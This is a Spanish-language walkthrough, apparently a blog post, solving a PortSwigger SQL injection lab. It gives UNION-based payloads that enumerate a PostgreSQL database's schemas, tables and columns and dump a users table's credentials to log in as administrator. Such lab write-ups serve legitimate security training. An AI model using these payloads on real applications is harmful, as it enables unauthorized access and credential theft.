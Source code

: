 ```yaml
---
title: SQLI Lab 5
date: 2024-11-15 12:35:00 +0800
author: Justice-Reaper
categories:
  - Portswigger
  - SQLI
tags:
  - SQLI (Error Based)
  - SQL injection attack, listing the database contents on non-Oracle databases
  - PostgreSQL
image:
  path: /assets/img/SQLI-Lab-5/Portswigger.png
---
```


## Skills

- SQL injection attack, listing the database contents on non-Oracle databases

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio contiene una `vulnerabilidad` de `inyección SQL` en el `filtro` de `categorías` de `productos`. Los resultados de la consulta se devuelven en la respuesta de la aplicación, por lo que debemos usar un `ataque UNION` para `recuperar datos` de otras tablas. La `aplicación` tiene una `función` de `inicio de sesión`, y la `base` de `datos` contiene una `tabla` que almacena nombres de `usuario` y `contraseñas`. Hay que `determinar` el `nombre` de esta `tabla` y las `columnas` que contiene, y luego `recuperar` el `contenido` de la `tabla` para obtener el `nombre` de `usuario` y la `contraseña` de todos los usuarios. Para resolver el laboratorio, hay que `iniciar sesión` como el usuario `administrador`

---
## Resolución

Al acceder a la `web` nos sale esto

![](/assets/img/SQLI-Lab-5/image_1.png)

Pinchamos en alguna de las `categorías`, capturamos la `petición` con `Burpsuite` y le añadimos una `'` a `category`

![](/assets/img/SQLI-Lab-5/image_2.png)

Si enviamos la `petición` nos dará un `Internal Server Error` debido a que hemos logrado interferir con la `consulta SQL` que se está haciendo

![](/assets/img/SQLI-Lab-5/image_3.png)

Si usamos este `payload`, ya habremos solucionado el error que se estaba produciendo en la `consulta SQL` y se mostrará lo siguiente

```
/filter?category=Lifestyle'or+1=1+--+-+
```

![](/assets/img/SQLI-Lab-5/image_4.png)

Esto se debe a que la `consulta SQL` que se debe estar haciendo debe ser esta

```
SELECT * FROM products WHERE category = 'Lifestyle'
```

Lo que hacemos cuando inyectamos `' or 1=1-- - ` es cerrar la `'` del campo `category` y usar `or 1=1` para que siempre sea verdad y por lo tanto exista, posteriormente con `-- - ` lo que hacemos es ignorar el resto de la `query`

```
SELECT * FROM products WHERE category = 'Lifestyle' OR 1=1 -- - '
```

Usando `order by` podemos `identificar` cuantas `columnas` tiene la `tabla`, si ponemos un `número` de `columnas` que `existe` no obtendremos `ningún error`

```
/filter?category=Lifestyle'order+by+2--+-+
```

![](/assets/img/SQLI-Lab-5/image_5.png)

Sin embargo si ponemos un `número` de `columnas` que no `existe`, obtendremos un `error`, esto es debido a que estamos ante una `SQLI Error Based`

```
/filter?category=Lifestyle'order+by+3--+-+
```

![](/assets/img/SQLI-Lab-5/image_6.png)

A continuación usamos `union select` para señalar ambos campos, podemos descartar que la `base` de `datos` sea `Oracle` porque no nos da un error, si nos diera un error probablemente sería una base de datos `Oracle` y debería añadirle `from dual` al final

```
/filter?category=Lifestyle'+union+select+null,null--+-+
```

Con este `payload` lo que hacemos es `listar` la `versión` de la `base` de `datos`, es importante inspeccionar la web correctamente, en este caso el resultado de la `SQLI` está en la parte inferior de la web

```
/filter?category=Lifestyle'+union+select+version(),null--+-+
```

![](/assets/img/SQLI-Lab-5/image_7.png)

`Listamos` las `bases` de `datos`, la expresión `string_agg(columnName, ',')` es como group_concat de `MySQL`

```
/filter?category=Lifestyle'+union+select+null,string_agg(datname, ',')+from+pg_database--+-+
```

![](/assets/img/SQLI-Lab-5/image_8.png)

`Listamos` la `base` de `datos` actual

```
/filter?category=Lifestyle'+union+select+current_database(),null--+-+
```

![](/assets/img/SQLI-Lab-5/image_9.png)

`Listamos` los `esquemas` de la `base` de `datos` actual

```
/filter?category=Lifestyle'+union+select+null,string_agg(schema_name,',')+from+information_schema.schemata--+-+
```

![](/assets/img/SQLI-Lab-5/image_10.png)

Para `listar` las `tablas` del esquema `public`

```
/filter?category=Lifestyle'+union+select+null,string_agg(table_name,',')+from+information_schema.tables+where+table_schema='public'--+-+
```

![](/assets/img/SQLI-Lab-5/image_11.png)

Si queremos visualizarlo de mejor forma podemos usar

```
/filter?category=Lifestyle'+union+select+null,array_to_string(array_agg(table_name), E'\n')+from+information_schema.tables+where+table_schema='public'--+-+
```

![](/assets/img/SQLI-Lab-5/image_12.png)

`Enumeramos` las `columnas` de la tabla `users_nlnyoc`

```
/filter?category=Lifestyle'+union+select+null,array_to_string(array_agg(column_name),E'\n')+from+information_schema.columns+where+table_name='users_nlnyoc'--+-+
```

![](/assets/img/SQLI-Lab-5/image_13.png)

`Obtenemos` el `contenido` de la columna `username_vxtjej` y `password_siipou` de la tabla `users_nlnyoc`

```
/filter?category=Lifestyle%27+union+select+username_vxtjej,password_siipou+from+users_nlnyoc--+-+
```

![](/assets/img/SQLI-Lab-5/image_14.png)

Nos `logueamos` como el usuario `administrador`

![](/assets/img/SQLI-Lab-5/image_15.png)
